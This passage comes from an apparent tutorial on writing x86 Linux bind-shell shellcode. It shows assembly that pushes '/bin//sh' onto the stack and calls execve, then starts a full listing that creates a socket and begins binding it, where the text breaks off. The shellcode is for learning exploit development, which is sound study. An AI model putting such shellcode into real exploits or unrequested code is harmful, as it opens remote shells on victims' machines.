 The call will be:

execve("/bin/sh", NULL, NULL);

We have to null terminate the string for "/bin/sh" so we will use the stack to assign it to the proper register.

EDX is still 0'd out so we can keep it the same for an argument and also use it to null terminate ECX.

Note that, for ease of writing, we want 8 characters for our string.  We can do "/bin//sh" to effectively give the same command and have the proper length.  We also want to reverse the string, split it in to 4 character sections and push it on to the stack in hex.
```asm
push edx  ; null terminate the string
push 0x68732f2f ; push hs//
push 0x6e69622f ; push nib/

mov ebx, esp    ; move null terminated string into register

mov ecx, edx    ; 0x0
mov al, 0xB     ; syscall execve
int0x80         ; execve("/bin/sh", NULL, NULL);
```
### 7 Putting It All Together
The final product is:
```asm
global _start

section .text

_start:
        ; clear registers while avoiding nulls
        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        
        
        ;***************;
        ; create socket ;
        ;***************;
        
        
        ; 0x66 for socketcall
        mov al, 0x66
        ; callid - socket
        mov bl, 0x1
        
        push ecx
        push ebx
        push 0x2
        
        mov ecx, esp
        int 0x80
        
        ; store sockfd for later
        mov edi, eax
        
        
        ;*************;
        ; bind socket ;
        ;*************;
        
        
```